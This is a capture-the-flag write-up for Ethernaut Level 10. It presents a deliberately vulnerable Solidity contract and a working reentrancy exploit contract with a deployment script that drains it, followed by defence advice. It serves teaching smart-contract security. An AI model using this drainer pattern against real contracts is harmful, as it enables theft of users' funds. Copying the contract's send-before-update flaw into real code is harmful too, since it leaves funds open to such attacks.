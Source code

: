 # Level 10 - Re-entrancy ⏺⏺⏺

{% embed url="https://ethernaut.openzeppelin.com/level/10" %}

### Level Setup

{% hint style="info" %}
The goal of this level is for you to steal all the funds from the contract.

&#x20; Things that might help:

* Untrusted contracts can execute code where you least expect it.
* Fallback methods
* Throw/revert bubbling
* Sometimes the best way to attack a contract is with another contract.
* See the ["?"](https://ethernaut.openzeppelin.com/help) page above, section "Beyond the console"
{% endhint %}

### Level Contract

{% embed url="https://github.com/OpenZeppelin/ethernaut/blob/a89c8f7832258655c09fde16e6602c78e5e99dbd/contracts/src/levels/Reentrance.sol" %}

{% code lineNumbers="true" %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.12;

import 'openzeppelin-contracts-06/math/SafeMath.sol';

contract Reentrance {
  
  using SafeMath for uint256;
  mapping(address => uint) public balances;

  function donate(address _to) public payable {
    balances[_to] = balances[_to].add(msg.value);
  }

  function balanceOf(address _who) public view returns (uint balance) {
    return balances[_who];
  }

  function withdraw(uint _amount) public {
    if(balances[msg.sender] >= _amount) {
      (bool result,) = msg.sender.call{value:_amount}("");
      if(result) {
        _amount;
      }
      balances[msg.sender] -= _amount;
    }
  }

  receive() external payable {}
}
```
{% endcode %}

### Exploit

The exploit is a standard reentrancy attack made possible because the funds are sent before the state variable is updated. The receiving contract can then call the withdraw function again, leading to more funds being withdrawn than should have been available.

1. Call the `withdraw()` function from the `receive()` function.

{% tabs %}
{% tab title="Anvil" %}
```bash
make anvil-exploit-level-10

<INPUT_LEVEL_INSTANCE_CONTRACT_ADDRESS>
```
{% endtab %}

{% tab title="Holesky" %}
```bash
make holesky-exploit-level-10

<INPUT_LEVEL_INSTANCE_CONTRACT_ADDRESS>
```
{% endtab %}
{% endtabs %}

{% tabs %}
{% tab title="Exploit Contract" %}
{% embed url="https://github.com/EridianAlpha/ethernaut-foundry/blob/main/src/Level10.sol" %}

{% code title="src/Level10.sol" %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import {Script, console} from "forge-std/Script.sol";

interface IReentrance {
    function donate(address _to) external payable;
    function withdraw(uint256 _amount) external;
}

/**
 * Explainer from: https://solidity-by-example.org/fallback
 * ETH is sent to contract
 *      is msg.data empty?
 *           /    \
 *         yes    no
 *         /       \
 *    receive()?  fallback()
 *      /     \
 *    yes     no
 *    /        \
 * receive()  fallback()
 */

// ================================================================
// │                       LEVEL 10 - REENTRANCY                  │
// ================================================================
contract Reentrancy {
    IReentrance targetContract;
    uint256 attackValue;

    constructor(address _targetContractAddress) payable {
        targetContract = IReentrance(_targetContractAddress);
        attackValue = address(targetContract).balance;
        if (attackValue == 0) revert("Target contract has no funds to exploit");
        if (attackValue > address(this).balance) revert("Target contract has more funds than the exploit contract");
    }

    function attack() public {
        // Attack contract
        targetContract.donate{value: attackValue}(address(this));
        targetContract.withdraw(attackValue);

        (bool refundSuccess,) = address(msg.sender).call{value: address(this).balance}("");
        if (!refundSuccess) revert("Refund call failed");
    }

    receive() external payable {
        uint256 targetBalance = address(targetContract).balance;
        if (targetBalance >= attackValue) {
            targetContract.withdraw(attackValue);
        }
    }
}
```
{% endcode %}
{% endtab %}

{% tab title="Exploit Deployment Script" %}
{% embed url="https://github.com/EridianAlpha/ethernaut-foundry/blob/main/script/Level10.s.sol" %}

{% code title="script/Level10.s.sol" %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import {Script, console} from "forge-std/Script.sol";
import {HelperFunctions} from "script/HelperFunctions.s.sol";
import {Reentrancy} from "../src/Level10.sol";

// ================================================================
// │                       LEVEL 10 - REENTRANCY                  │
// ================================================================
contract Exploit is Script, HelperFunctions {
    function run() public {
        address targetContractAddress = getInstanceAddress();

        vm.startBroadcast();
        Reentrancy reentrancy = new Reentrancy{value: 1 ether}(targetContractAddress);
        reentrancy.attack();
        vm.stopBroadcast();
    }
}
```
{% endcode %}
{% endtab %}
{% endtabs %}

2. Submit instance... 🥳

### Completion Message

{% hint style="info" %}
In order to prevent re-entrancy attacks when moving funds out of your contract, use the [Checks-Effects-Interactions pattern](https://solidity.readthedocs.io/en/develop/security-considerations.html#use-the-checks-effects-interactions-pattern) being aware that `call` will only return false without interrupting the execution flow. Solutions such as [ReentrancyGuard](https://docs.openzeppelin.com/contracts/2.x/api/utils#ReentrancyGuard) or [PullPayment](https://docs.openzeppelin.com/contracts/2.x/api/payment#PullPayment) can also be used.

`transfer` and `send` are no longer recommended solutions as they can potentially break contracts after the Istanbul hard fork [Source 1](https://diligence.consensys.net/blog/2019/09/stop-using-soliditys-transfer-now/) [Source 2](https://forum.openzeppelin.com/t/reentrancy-after-istanbul/1742).

Always assume that the receiver of the funds you are sending can be another contract, not just a regular address. Hence, it can execute code in its payable fallback method and _re-enter_ your contract, possibly messing up your state/logic.

Re-entrancy is a common attack. You should always be prepared for it!

&#x20;

**The DAO Hack**

The famous DAO hack used reentrancy to extract a huge amount of ether from the victim contract. See [15 lines of code that could have prevented TheDAO Hack](https://blog.openzeppelin.com/15-lines-of-code-that-could-have-prevented-thedao-hack-782499e00942).
{% endhint %}

### Notes

* No function, including the `receive()` function, can be invoked from logic in the constructor.
